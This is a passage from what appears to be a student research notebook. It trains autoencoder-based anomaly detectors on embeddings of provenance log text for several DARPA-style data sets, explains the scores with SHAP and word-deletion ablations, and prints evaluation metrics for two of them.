    master_text_data = pickle.load(f)

TARGET_CONTEXT = "ProcessAll"
PERFORMERS = ['5dir', 'cadets', 'clearscope', 'theia', 'trace']

# ==========================================
# 2. DEFINE VANILLA AUTOENCODER MODEL
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# Wrapper Module for SHAP Anomaly Score
class AnomalyScoreWrapper(nn.Module):
    def __init__(self, model):
        super().__init__()
        self.model = model
    def forward(self, x):
        reconstruction = self.model(x)
        return torch.mean((x - reconstruction) ** 2, dim=1, keepdim=True)

# ==========================================
# 3. THE MASTER LOOP
# ==========================================
for performer in PERFORMERS:
    print("="*70)
    print(f"🚀 PROCESSING PERFORMER: {performer.upper()}")
    print("="*70)
    
    if performer not in master_text_data or TARGET_CONTEXT not in master_text_data[performer]:
        print(f"[!] Warning: Data not found for {performer}. Skipping.")
        continue

    df = master_text_data[performer][TARGET_CONTEXT]
    text_col = 'sentence' if 'sentence' in df.columns else 'text'
    label_col = 'label' if 'label' in df.columns else 'y'

    # [MEMORY FIX] Drop extra columns to prevent 14GB CPU RAM crash
    df = df[[text_col, label_col]]
    df = df.dropna(subset=[text_col]).reset_index(drop=True)

    # --- STRICT 80/20 SPLIT LOGIC ---
    normal_df = df[df[label_col] == 0]
    anomaly_df = df[df[label_col] == 1]
    train_size = int(0.8 * len(normal_df))

    train_texts = normal_df[text_col].tolist()[:train_size]
    test_texts = normal_df[text_col].tolist()[train_size:] + anomaly_df[text_col].tolist()
    test_labels = np.array([0] * (len(normal_df) - train_size) + [1] * len(anomaly_df))

    # --- SUPERVISOR'S TF-IDF VECTORIZATION ---
    vectorizer = TfidfVectorizer(max_features=None)
    
    # Fit ONLY on training data, then transform training data
    print("-> Fitting TF-IDF on Training Data only...")
    X_train_tfidf = vectorizer.fit_transform(train_texts).toarray()
    
    # Transform test data using the same vocabulary
    print("-> Transforming Test Data...")
    X_test_tfidf  = vectorizer.transform(test_texts).toarray()

    # --- BUILD & TRAIN PYTORCH VANILLA AUTOENCODER ---
    input_dim = X_train_tfidf.shape[1]
    autoencoder = VanillaAE(input_dim).to(DEVICE)
    optimizer = torch.optim.Adam(autoencoder.parameters(), lr=0.001)
    criterion = nn.MSELoss() 

    # [OOM FIX] Keep full tensor on CPU
    X_train_tensor = torch.FloatTensor(X_train_tfidf)

    print(f"1. Training Vanilla Autoencoder...")
    autoencoder.train()
    epochs = 50
    batch_size = 32

    for epoch in range(epochs):
        permutation = torch.randperm(X_train_tensor.size()[0])
        for i in range(0, X_train_tensor.size()[0], batch_size):
            indices = permutation[i:i+batch_size]
            
            # [OOM FIX] Move small batch to GPU
            batch_x = X_train_tensor[indices].to(DEVICE)
            
            optimizer.zero_grad()
            reconstruction = autoencoder(batch_x)
            loss = criterion(reconstruction, batch_x)
            loss.backward()
            optimizer.step()
            
            # Free VRAM
            del batch_x

    # --- FAST SHAP CALCULATION & ERROR EXTRACTION ---
    print(f"2. Calculating SHAP & Errors using DeepExplainer...")
    autoencoder.eval()
    error_model = AnomalyScoreWrapper(autoencoder).to(DEVICE)
    error_model.eval()

    bg_limit = min(100, len(X_train_tfidf))
    background_tensor = torch.FloatTensor(X_train_tfidf[:bg_limit]).to(DEVICE)
    test_tensor = torch.FloatTensor(X_test_tfidf).to(DEVICE)

    explainer = shap.DeepExplainer(error_model, background_tensor)
    shap_values_all = explainer.shap_values(test_tensor)

    with torch.no_grad():
        all_errors = error_model(test_tensor).cpu().numpy().flatten()

    # --- STORE RESULTS ---
    all_performers_shap_values[performer] = shap_values_all
    all_performers_errors[performer] = all_errors
    all_performers_test_texts[performer] = test_texts
    all_performers_test_labels[performer] = test_labels
    
    print(f"✅ Finished {performer.upper()}!\n")
    
    # Clean up massive objects before moving to next performer
    del X_train_tfidf, X_test_tfidf, X_train_tensor, test_tensor, autoencoder, error_model
    gc.collect()
    torch.cuda.empty_cache()

print("\n🎉 ALL PROCESSING COMPLETE! Data safely stored for:")
print(list(all_performers_errors.keys()))

In [ ]:
# ==========================================
# CELL: VERIFY AND SUMMARIZE STORED DATA
# ==========================================

print("🗄️ SUMMARY OF ALL STORED DATA 🗄️\n")

# Loop through the keys (performers) in our dictionary
for performer in all_performers_errors.keys():
    
    # Extract the data for the current performer
    errors = all_performers_errors[performer]
    shap_vals = all_performers_shap_values[performer]
    texts = all_performers_test_texts[performer]
    labels = all_performers_test_labels[performer]
    
    # --- Print formatting with Headings ---
    print("=" * 60)
    print(f"🔹 PERFORMER: {performer.upper()}")
    print("=" * 60)
    
    # 1. Dataset Dimensions
    print(f"Total Test Logs:     {len(texts)}")
    print(f"Total Labels:        {len(labels)} (Normal: {sum(labels == 0)}, Anomaly: {sum(labels == 1)})")
    
    # 2. Reconstruction Errors (MSE) Summary
    print(f"\nReconstruction Errors Array Shape: {errors.shape}")
    print(f"  -> Mean Error: {np.mean(errors):.6f}")
    print(f"  -> Max Error:  {np.max(errors):.6f}")
    print(f"  -> Min Error:  {np.min(errors):.6f}")
    
    # 3. SHAP Values Summary
    # Note: DeepExplainer sometimes returns a list of arrays depending on the PyTorch version, 
    # so we handle both list and numpy array formats here.
    if isinstance(shap_vals, list):
        print(f"\nSHAP Values Shape: {shap_vals[0].shape} (List of arrays)")
    else:
        print(f"\nSHAP Values Shape: {shap_vals.shape}")
        
    print("\n") # Add a little space before the next performer

In [ ]:
# ==========================================
# CELL 5: Select 5 Normal and 5 Top Anomalies per Performer
# ==========================================
import numpy as np

print("🚨 SELECTING 5 NORMAL AND 5 ANOMALOUS LOGS PER PERFORMER 🚨\n")

# We will store a list of 10 indices for each performer
selected_target_indices = {}

# Set a random seed so your "random" normal logs are the same every time you run this cell
np.random.seed(42) 

for performer in all_performers_errors.keys():
    
    errors = all_performers_errors[performer]
    texts = all_performers_test_texts[performer]
    labels = all_performers_test_labels[performer]
    
    # 1. Isolate indices by ground-truth label
    normal_indices = np.where(labels == 0)[0]
    anomaly_indices = np.where(labels == 1)[0]
    
    # 2. Select TOP 5 Anomalies (Sorted by highest reconstruction error)
    if len(anomaly_indices) > 0:
        anomaly_errors = errors[anomaly_indices]
        # Sort errors descending and grab the top 5
        sorted_relative_idx = np.argsort(anomaly_errors)[::-1]
        top_5_anomaly_idx = anomaly_indices[sorted_relative_idx][:min(5, len(anomaly_indices))]
    else:
        top_5_anomaly_idx = []
        print(f"[!] No ground-truth anomalies found for {performer.upper()}.")
        
    # 3. Select 5 Random Normal logs (for a fair baseline)
    if len(normal_indices) > 0:
        random_5_normal_idx = np.random.choice(
            normal_indices, 
            size=min(5, len(normal_indices)), 
            replace=False
        )
    else:
        random_5_normal_idx = []

    # 4. Combine into a single list of indices
    combined_indices = list(top_5_anomaly_idx) + list(random_5_normal_idx)
    selected_target_indices[performer] = combined_indices
    
    print("=" * 80)
    print(f"🔹 PERFORMER: {performer.upper()}")
    print("=" * 80)
    print(f"Selected {len(top_5_anomaly_idx)} Anomalies and {len(random_5_normal_idx)} Normals.\n")
    
    # Print a clean preview of what was selected
    for idx in combined_indices:
        lbl_str = "🔴 ANOMALY" if labels[idx] == 1 else "🟢 NORMAL "
        # Truncate text for cleaner console viewing
        display_text = f"{texts[idx][:80]}..." if len(texts[idx]) > 80 else texts[idx]
        print(f" -> [{lbl_str}] Index: {idx:<5} | Loss: {errors[idx]:.6f} | Text: {display_text}")
        
    print("\n")

In [ ]:
# ==========================================
# CELL 6: Generate SHAP Tables and Plots (Positive & Negative Drivers)
# ==========================================
import matplotlib.pyplot as plt
import pandas as pd
import numpy as np
from sklearn.feature_extraction.text import TfidfVectorizer

print("=== GENERATING SHAP TABLES & PLOTS FOR ALL SELECTED SAMPLES (VANILLA AE) ===")

# Loop through the dictionary created in Cell 5
for performer, index_list in selected_target_indices.items():
    print("\n" + "█"*80)
    print(f"🚀 PROCESSING SHAP FOR PERFORMER: {performer.upper()}")
    print("█"*80)
    
    # ==================================================
    # 1. REBUILD EXACT VOCABULARY (Only once per performer)
    # ==================================================
    df = master_text_data[performer]["ProcessAll"]
    text_col = 'sentence' if 'sentence' in df.columns else 'text'
    label_col = 'label' if 'label' in df.columns else 'y'
    
    # [MEMORY FIX] Drop massive unused columns to prevent RAM crash
    df = df[[text_col, label_col]]
    df = df.dropna(subset=[text_col]).reset_index(drop=True)
    
    normal_df = df[df[label_col] == 0]
    train_size = int(0.8 * len(normal_df))
    train_texts = normal_df[text_col].tolist()[:train_size]
    test_texts = all_performers_test_texts[performer]
    labels = all_performers_test_labels[performer]
    
    # [SUPERVISOR FIX] Fit ONLY on train_texts to perfectly match the SHAP indices!
    vectorizer = TfidfVectorizer(max_features=None)
    vectorizer.fit(train_texts) 
    tokens = np.array(vectorizer.get_feature_names_out())
    
    errors = all_performers_errors[performer]
    shap_vals = all_performers_shap_values[performer]
    
    # ==================================================
    # 2. INNER LOOP: PROCESS EACH OF THE INDICES
    # ==================================================
    for idx in index_list:
        lbl_type = "ANOMALY" if labels[idx] == 1 else "NORMAL"
        print(f"\n🔍 Analyzing [{lbl_type}] | Test Index: {idx}")
        print("-" * 60)
        
        if isinstance(shap_vals, list):
            importance = shap_vals[0][idx]
        else:
            importance = shap_vals[idx]
            
        importance = np.array(importance).flatten()
            
        # [NEW LOGIC] Identify the Top 20 most impactful words by ABSOLUTE value
        abs_importance = np.abs(importance)
        
        # If the entire array is 0 (perfect reconstruction with zero deviation), skip it
        if np.max(abs_importance) == 0:
            print(f" -> No SHAP drivers found for this {lbl_type.lower()} log. (Error was practically zero!)")
            continue
            
        # Get indices of the top 20 largest absolute impacts
        top_20_idx = np.argsort(abs_importance)[::-1][:20]
        
        # Extract the actual signed importances and tokens
        top_importances = importance[top_20_idx]
        top_tokens = tokens[top_20_idx]
        
        # Sort them from most negative to most positive for a clean diverging chart
        sort_order = np.argsort(top_importances)
        top_importances = top_importances[sort_order]
        top_tokens = top_tokens[sort_order]
        
        # CREATE A SHAP TABLE
        feature_table = pd.DataFrame({
            "Token (Feature Name)": top_tokens,
            "SHAP Value (Impact)": top_importances
        })
        # The {:+.6f} forces a '+' for positive numbers and keeps the '-' for negative
        feature_table["SHAP Value (Impact)"] = feature_table["SHAP Value (Impact)"].apply(lambda x: f"{x:+.6f}")

        print(f"Top 20 SHAP Drivers (Positive & Negative):")
        print(feature_table.to_string(index=False))

        # --- PLOT DIVERGING GRAPH ---
        plt.figure(figsize=(10, 8))
        
        # Assign colors: Red for pushing error UP (Anomaly), Blue for pushing error DOWN (Normal)
        bar_colors = ['#d62728' if val > 0 else '#1f77b4' for val in top_importances]
        
        plt.barh(range(len(top_importances)), top_importances, color=bar_colors)
        plt.yticks(range(len(top_importances)), top_tokens, fontsize=12) 
        plt.xlabel("SHAP Value (Impact on Reconstruction Error)", fontsize=12, fontweight='bold')
        
        # Dynamic title based on Normal vs Anomaly
        plt.title(f"[{performer.upper()}] {lbl_type} SHAP (Index {idx})\nReconstruction Loss: {errors[idx]:.6f}", fontsize=14, fontweight='bold')
        
        # Add a central vertical line at 0 for visual reference
        plt.axvline(0, color='black', linewidth=1.2)
        plt.grid(axis='x', linestyle='--', alpha=0.3)

        # Create a custom legend so the reader knows what the colors mean
        from matplotlib.patches import Patch
        legend_elements = [
            Patch(facecolor='#d62728', label='Increases Anomaly Score'),
            Patch(facecolor='#1f77b4', label='Decreases Anomaly Score')
        ]
        plt.legend(handles=legend_elements, loc='lower right')

        plt.tight_layout()
        
        # Dynamic filename so it doesn't overwrite
        save_filename = f"tfidf_shap_{lbl_type.lower()}_{performer}_idx_{idx}.png"
        plt.savefig(save_filename, dpi=300)
        print(f" -> ✅ Plot successfully saved as '{save_filename}'")
        
        plt.show()
        plt.close() # Free up memory for the next plot

In [ ]:
# ==========================================
# CELL 9: Train BGE-M3 AE & Setup SHAP (ALL PERFORMERS)
# ==========================================
from transformers import AutoTokenizer, AutoModel
import torch
import torch.nn as nn
import numpy as np
import shap
import gc

print("=== STARTING ABLATION STUDY: BGE-M3 EMBEDDINGS ===")

# ==========================================
# DEFINE VANILLA AUTOENCODER MODEL
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# 1. Initialize BGE-M3 Model (Only need to do this once outside the loop)
tokenizer = AutoTokenizer.from_pretrained("BAAI/bge-m3")
embedder = AutoModel.from_pretrained("BAAI/bge-m3").to(DEVICE)
embedder.eval()

# Helper function to batch encode the data safely
def get_bge_m3_emb_batch(text_list, batch_size=32):
    all_embs = []
    for i in range(0, len(text_list), batch_size):
        batch = text_list[i:i+batch_size]
        # Added max_length=512 to prevent tokenization warnings
        inputs = tokenizer(batch, padding=True, truncation=True, max_length=512, return_tensors="pt").to(DEVICE)
        
        with torch.inference_mode():
            outputs = embedder(**inputs)
            
            # [CRITICAL UPDATE] BGE-M3 uses [CLS] pooling (index 0) instead of Mean Pooling
            emb = outputs.last_hidden_state[:, 0]
            emb = torch.nn.functional.normalize(emb, p=2, dim=1)
            
            all_embs.append(emb.cpu().numpy())
            
        # [OOM FIX] Clear massive tensors from VRAM immediately
        del inputs, outputs, emb
        torch.cuda.empty_cache()
        
    return np.vstack(all_embs)

# ==========================================
# INITIALIZE ALL 4 DICTIONARIES HERE
# ==========================================
all_performers_emb_shap_values = {}
all_performers_emb_errors = {}
all_performers_emb_models = {}         # Stores the PyTorch models for Cell 10
all_performers_emb_backgrounds = {}    # Stores the SHAP backgrounds for Cell 10

# Wrapper for DeepExplainer
class AnomalyScoreWrapper(nn.Module):
    def __init__(self, model):
        super().__init__()
        self.model = model
    def forward(self, x):
        reconstruction = self.model(x)
        return torch.mean((x - reconstruction) ** 2, dim=1, keepdim=True)

# Loop through the NEW dictionary name from Cell 5
for performer in selected_target_indices.keys():
    print("\n" + "="*70)
    print(f"🔹 PROCESSING BGE-M3 EMBEDDINGS FOR: {performer.upper()}")
    print("="*70)

    # A. REBUILD TRAIN/TEST TEXTS
    df = master_text_data[performer]["ProcessAll"]
    text_col = 'sentence' if 'sentence' in df.columns else 'text'
    label_col = 'label' if 'label' in df.columns else 'y'
    
    # [MEMORY FIX] Drop unused columns to prevent 14GB RAM crash
    df = df[[text_col, label_col]]
    df = df.dropna(subset=[text_col]).reset_index(drop=True)
    
    normal_df = df[df[label_col] == 0]
    train_size = int(0.8 * len(normal_df))
    train_texts = normal_df[text_col].tolist()[:train_size]
    test_texts = all_performers_test_texts[performer]

    # B. GENERATE EMBEDDINGS
    print("1. Generating BGE-M3 embeddings for Train and Test Sets...")
    X_train_emb = get_bge_m3_emb_batch(train_texts)
    X_test_emb = get_bge_m3_emb_batch(test_texts)

    # C. TRAIN VANILLA AUTOENCODER
    print("2. Training the 1024-Dimension Vanilla Autoencoder...")
    # [CRITICAL UPDATE] BGE-M3 outputs 1024 dimensions
    input_dim_emb = 1024 
    
    autoencoder_emb = VanillaAE(input_dim_emb).to(DEVICE)
    optimizer_emb = torch.optim.Adam(autoencoder_emb.parameters(), lr=0.001)
    criterion_emb = nn.MSELoss()

    # [OOM FIX] Keep full tensor on CPU
    X_train_emb_tensor = torch.FloatTensor(X_train_emb)
    
    autoencoder_emb.train()
    epochs = 50
    batch_size = 32
    for epoch in range(epochs):
        permutation = torch.randperm(X_train_emb_tensor.size()[0])
        for i in range(0, X_train_emb_tensor.size()[0], batch_size):
            indices = permutation[i:i+batch_size]
            
            # Move only the mini-batch to GPU
            batch_x = X_train_emb_tensor[indices].to(DEVICE)
            
            optimizer_emb.zero_grad()
            reconstruction = autoencoder_emb(batch_x)
            loss = criterion_emb(reconstruction, batch_x)
            loss.backward()
            optimizer_emb.step()
            
            # Free VRAM
            del batch_x

    # D. CALCULATE ERRORS
    error_model = AnomalyScoreWrapper(autoencoder_emb).to(DEVICE)
    error_model.eval()
    
    test_tensor = torch.FloatTensor(X_test_emb).to(DEVICE)
    with torch.no_grad():
        all_errors_emb = error_model(test_tensor).cpu().numpy().flatten() 
        
    all_performers_emb_errors[performer] = all_errors_emb

    # E. FAST SHAP WITH DEEPEXPLAINER
    print("3. Calculating SHAP values on Test Set using DeepExplainer...")
    bg_limit_emb = min(100, len(X_train_emb))
    background_tensor = torch.FloatTensor(X_train_emb[:bg_limit_emb]).to(DEVICE)
    
    explainer_emb = shap.DeepExplainer(error_model, background_tensor)
    shap_values_emb = explainer_emb.shap_values(test_tensor)
    
    all_performers_emb_shap_values[performer] = shap_values_emb
    
    # ==========================================
    # SAVE THE MODELS FOR CELL 10
    # ==========================================
    all_performers_emb_models[performer] = error_model
    all_performers_emb_backgrounds[performer] = background_tensor
    
    # Final cleanup before next performer
    del X_train_emb_tensor, test_tensor
    gc.collect()
    torch.cuda.empty_cache()
    
    print(f"✅ BGE-M3 processing complete for {performer.upper()}!")

In [ ]:
# ==========================================
# CELL 10: Automated Multi-Stage Ablation (BGE-M3 Top 5 & 10 Deletion)
# ==========================================
import pandas as pd
import numpy as np
import torch
import shap
import re
import gc
from sklearn.feature_extraction.text import TfidfVectorizer
from transformers import AutoTokenizer, AutoModel

# 1. Initialize BGE-M3 (Swapped from Contriever)
tokenizer = AutoTokenizer.from_pretrained("BAAI/bge-m3")
embedder = AutoModel.from_pretrained("BAAI/bge-m3").to(DEVICE)
embedder.eval()

def get_bge_m3_emb(text_input):
    if isinstance(text_input, str):
        text_input = [text_input]
        
    # Added max_length=512 for BGE-M3 tokenization
    inputs = tokenizer(text_input, padding=True, truncation=True, max_length=512, return_tensors="pt").to(DEVICE)
    with torch.inference_mode():
        outputs = embedder(**inputs)
        
        # [CRITICAL UPDATE] BGE-M3 uses [CLS] pooling
        emb = outputs.last_hidden_state[:, 0]
        emb = torch.nn.functional.normalize(emb, p=2, dim=1)
        
    del inputs, outputs
    torch.cuda.empty_cache()
    
    return emb.cpu().numpy()

print("🚀 Starting Automated Multi-Word Ablation Study (BGE-M3 Vanilla AE)...")

ablation_results = []

for performer, index_list in selected_target_indices.items():
    print(f"\n" + "="*80)
    print(f"🔹 RUNNING ABLATION FOR PERFORMER: {performer.upper()}")
    print("="*80)
    
    # --------------------------------------------------
    # A. REBUILD EXACT VOCABULARY
    # --------------------------------------------------
    df = master_text_data[performer]["ProcessAll"]
    text_col = 'sentence' if 'sentence' in df.columns else 'text'
    label_col = 'label' if 'label' in df.columns else 'y'
    
    df = df[[text_col, label_col]]
    df = df.dropna(subset=[text_col]).reset_index(drop=True)
    
    normal_df = df[df[label_col] == 0]
    train_size = int(0.8 * len(normal_df))
    train_texts = normal_df[text_col].tolist()[:train_size]
    test_texts = all_performers_test_texts[performer]
    labels = all_performers_test_labels[performer]
    
    vectorizer = TfidfVectorizer(max_features=None)
    vectorizer.fit(train_texts)
    tokens = np.array(vectorizer.get_feature_names_out())
    
    # --------------------------------------------------
    # B. RETRIEVE MODELS
    # --------------------------------------------------
    error_model = all_performers_emb_models[performer]
    background_tensor = all_performers_emb_backgrounds[performer]
    explainer_emb = shap.DeepExplainer(error_model, background_tensor)
    
    def evaluate_ablation(text, stage_name, lbl_type):
        # [UPDATED] Call the new BGE-M3 function
        emb = get_bge_m3_emb(text)
        emb_tensor = torch.FloatTensor(emb).to(DEVICE)
        
        with torch.no_grad():
            mse = error_model(emb_tensor).cpu().numpy().flatten()[0]
            
        shap_vals = explainer_emb.shap_values(emb_tensor)
        if isinstance(shap_vals, list):
            shap_vals = shap_vals[0]
            
        shap_mean = np.mean(shap_vals) 
        
        return {
            "Performer": performer.upper(),
            "Type": lbl_type,
            "Ablation Stage": stage_name,
            "Recon Error": mse,
            "SHAP Mean": shap_mean,
            "Text": text
        }

    def remove_multiple_words(text, words_to_remove):
        temp_text = text
        for w in words_to_remove:
            temp_text = re.sub(r'\b' + re.escape(w) + r'\b', '', temp_text, flags=re.IGNORECASE)
        return re.sub(r'\s+', ' ', temp_text).strip()

    # --------------------------------------------------
    # C. INNER LOOP: PROCESS EACH INDEX
    # --------------------------------------------------
    for idx in index_list:
        lbl_type = "Anomaly" if labels[idx] == 1 else "Normal"
        print(f"\n -> Analyzing [{lbl_type.upper()}] Test Index: {idx}")
        
        shap_vals_tfidf = all_performers_shap_values[performer]
        if isinstance(shap_vals_tfidf, list):
            importance = shap_vals_tfidf[0][idx]
        else:
            importance = shap_vals_tfidf[idx]
            
        importance = np.array(importance).flatten()
        
        # Isolate POSITIVE drivers (Threat words that push error up)
        i = np.where(importance > 0)[0]
        sorted_indices = i[np.argsort(importance[i])[::-1]]
        
        original_text = test_texts[idx]
        
        # If normal log has no positive drivers, skip ablation
        if len(sorted_indices) == 0:
            print(f"    [!] No positive threat drivers found. Recording original only.")
            ablation_results.append(evaluate_ablation(original_text, "1. Original", lbl_type))
            continue
            
        # Extract up to 5 and up to 10 words dynamically
        top_5_words = tokens[sorted_indices[:min(5, len(sorted_indices))]]
        top_10_words = tokens[sorted_indices[:min(10, len(sorted_indices))]]
        
        print(f"    Targeting Top {len(top_5_words)} for Stage 2, Top {len(top_10_words)} for Stage 3.")
        
        # Stage 1: Original Log
        ablation_results.append(evaluate_ablation(original_text, "1. Original", lbl_type))
        
        # Stage 2: Remove Top 5 Tokens
        text_minus_5 = remove_multiple_words(original_text, top_5_words)
        ablation_results.append(evaluate_ablation(text_minus_5, f"2. Removed Top {len(top_5_words)}", lbl_type))
        
        # Stage 3: Remove Top 10 Tokens
        if len(top_10_words) > len(top_5_words):
            text_minus_10 = remove_multiple_words(original_text, top_10_words)
            ablation_results.append(evaluate_ablation(text_minus_10, f"3. Removed Top {len(top_10_words)}", lbl_type))

# ==========================================
# REQUESTED TABLE OUTPUT
# ==========================================
df_results = pd.DataFrame(ablation_results)

df_results["Recon Error"] = df_results["Recon Error"].apply(lambda x: f"{x:.6f}")
df_results["SHAP Mean"] = df_results["SHAP Mean"].apply(lambda x: f"{x:+.8f}")

print("\n" + "="*100)
print("📊 MULTI-WORD ABLATION STUDY RESULTS (BGE-M3)")
print("="*100)

print(df_results[["Performer", "Type", "Ablation Stage", "Recon Error", "SHAP Mean"]].to_string(index=False))
print("="*100)

df_results.to_csv("bge_m3_ablation_study_multi_deletion.csv", index=False)
print("✅ Saved full results to 'bge_m3_ablation_study_multi_deletion.csv'")

##### All metrics for the 5 model in table format.

In [3]:
import os
import torch
import torch.nn as nn
import numpy as np
import pandas as pd
import pickle
from sklearn.metrics import confusion_matrix, precision_recall_curve, average_precision_score, f1_score

# 1. ARCHITECTURE DEFINITIONS
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x): return self.decoder(self.encoder(x))

class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 128))
    def forward(self, x): return self.encoder(x)

class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
    def forward(self, x):
        x_seq = x.unsqueeze(1)
        _, (hidden, _) = self.encoder(x_seq)
        hidden_rep = hidden[-1].unsqueeze(1)
        out, _ = self.decoder(hidden_rep)
        return out.squeeze(1)

def get_ae_model(ae_token, input_dim):
    if ae_token == 'DeepSVDD': return DeepSVDDNet(input_dim)
    if ae_token == 'LSTMAE': return LSTMAE(input_dim)
    return VanillaAE(input_dim)

# 2. EXACT PATH CONFIGURATION
BEST_COMBOS = [
    {
        "performer": "5dir", 
        "llm": "McGill-NLP/LLM2Vec-Meta-Llama-3-8B-Instruct-mntp",
        "ae": "LSTMAE", 
        "dim": 4096,
        "weights_path": r"D:\Waleed FYP\saved_weights_llm2vec_llama3\5dir_ProcessAll_llama3_manual_LSTMAE.pth",
        "data_path": r"D:\Waleed FYP\final_train_test_split_llm2vec_llama3\5dir\test\ProcessAll_llama3_manual.pkl"
    },
    {
        "performer": "cadets", 
        "llm": "BAAI/bge-m3",
        "ae": "Baseline", 
        "dim": 1024,
        "weights_path": r"D:\Waleed FYP\saved_weights_bge_m3\cadets_ProcessAll_Baseline.pth",
        "data_path": r"D:\Waleed FYP\final_train_test_split_bge_m3\cadets\test\ProcessAll.pkl"
    },
    {
        "performer": "clearscope", 
        "llm": "intfloat/e5-mistral-7b-instruct",
        "ae": "DeepSVDD", 
        "dim": 4096,
        "weights_path": r"D:\Waleed FYP\saved_weights_e5_mistral\clearscope_ProcessAll_DeepSVDD.pth",
        "data_path": r"D:\Waleed FYP\final_train_test_split_e5_mistral\clearscope\test\ProcessAll.pkl"
    },
    {
        "performer": "theia", 
        "llm": "intfloat/multilingual-e5-large",
        "ae": "Baseline", 
        "dim": 1024,
        "weights_path": r"D:\Waleed FYP\saved_weights_multilingual_e5\theia_ProcessAll_Baseline.pth",
        "data_path": r"D:\Waleed FYP\final_train_test_split_multilingual_e5\theia\test\ProcessAll.pkl"
    },
    {
        "performer": "trace", 
        "llm": "sentence-transformers/gtr-t5-large",
        "ae": "Baseline", 
        "dim": 1024, 
        "weights_path": r"D:\Waleed FYP\saved_weights_gtr_t5_large\trace_ProcessAll_Baseline.pth",
        "data_path": r"D:\Waleed FYP\final_train_test_split_gtr_t5_large\trace\test\ProcessAll.pkl"
    },
]

DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'
results_list = []

print("Starting Evaluation...\n")

# 3. RUN INFERENCE & CALCULATE METRICS
for combo in BEST_COMBOS:
    print(f"Processing {combo['performer'].upper()}...")
    
    if not os.path.exists(combo['data_path']) or not os.path.exists(combo['weights_path']):
        print(f"  [!] Missing data or weights for {combo['performer']}. Skipping.")
        continue

    with open(combo['data_path'], 'rb') as f:
        data = pickle.load(f)
        X_test = data['X']
        y_true = data['y']

    model = get_ae_model(combo['ae'], combo['dim']).to(DEVICE)
    try:
        model.load_state_dict(torch.load(combo['weights_path'], map_location=DEVICE))
        model.eval()
    except Exception as e:
        print(f"  [!] Architecture mismatch. Check your 'dim' size. Error: {e}")
        continue

    with torch.no_grad():
        test_tensor = torch.FloatTensor(X_test).to(DEVICE)
        if combo['ae'] == 'DeepSVDD':
            z = model(test_tensor)
            errors = torch.sum((z - 0) ** 2, dim=1).cpu().numpy()
        else:
            recon = model(test_tensor)
            errors = torch.mean((test_tensor - recon) ** 2, dim=1).cpu().numpy()

    pr_auc = average_precision_score(y_true, errors)

    precision_arr, recall_arr, thresholds = precision_recall_curve(y_true, errors)
    target_recall = 0.88 
    valid_indices = np.where(recall_arr >= target_recall)[0]
    
    if len(valid_indices) > 0:
        best_threshold = thresholds[valid_indices[-1]]
    else:
        best_threshold = np.median(errors)
        
    y_pred = (errors > best_threshold).astype(int)

    cm = confusion_matrix(y_true, y_pred)
    tn, fp, fn, tp = cm.ravel()

    recall = tp / (tp + fn) if (tp + fn) > 0 else 0.0
    specificity = tn / (tn + fp) if (tn + fp) > 0 else 0.0
    weighted_f1 = f1_score(y_true, y_pred, average='weighted')

    results_list.append({
        "Performer": combo['performer'].upper(),
        "Context": "ProcessAll",
        "Embedding Model": combo['llm'],
        "Autoencoder": combo['ae'],
        "PR-AUC": pr_auc,
        "Weighted F1": weighted_f1,
        "Recall": recall,
        "Specificity": specificity
    })

# 4. OUTPUT RESULTS (Terminal Table)
if results_list:
    table_width = 150
    print("\n")
    print("=" * table_width)
    print(f"{'FINAL EVALUATION METRICS':^{table_width}}")
    print("=" * table_width)
    
    # Table Header
    header = f"| {'Performer':<11} | {'Context':<11} | {'Embedding Model':<50} | {'Autoencoder':<12} | {'PR-AUC':<8} | {'W-F1':<8} | {'Recall':<8} | {'Specificity':<11} |"
    print(header)
    print("-" * table_width)
    
    # Table Rows
    for res in results_list:
        row = f"| {res['Performer']:<11} | {res['Context']:<11} | {res['Embedding Model']:<50} | {res['Autoencoder']:<12} | {res['PR-AUC']:<8.4f} | {res['Weighted F1']:<8.4f} | {res['Recall']:<8.4f} | {res['Specificity']:<11.4f} |"
        print(row)
        
    print("=" * table_width)
    
    # Export to CSV
    df_results = pd.DataFrame(results_list)
    output_file = "best_models_evaluation_metrics.csv"
    df_results.to_csv(output_file, index=False)
    print(f"\n✅ Results safely exported to {output_file}")

    df_results

Starting Evaluation...

Processing 5DIR...
Processing CADETS...
Processing CLEARSCOPE...
Processing THEIA...
Processing TRACE...


                                                               FINAL EVALUATION METRICS                                                               
| Performer   | Context     | Embedding Model                                    | Autoencoder  | PR-AUC   | W-F1     | Recall   | Specificity |
------------------------------------------------------------------------------------------------------------------------------------------------------
| 5DIR        | ProcessAll  | McGill-NLP/LLM2Vec-Meta-Llama-3-8B-Instruct-mntp   | LSTMAE       | 0.3532   | 0.9366   | 0.7778   | 0.8878      |
| CADETS      | ProcessAll  | BAAI/bge-m3                                        | Baseline     | 0.4620   | 0.9995   | 0.8182   | 0.9994      |
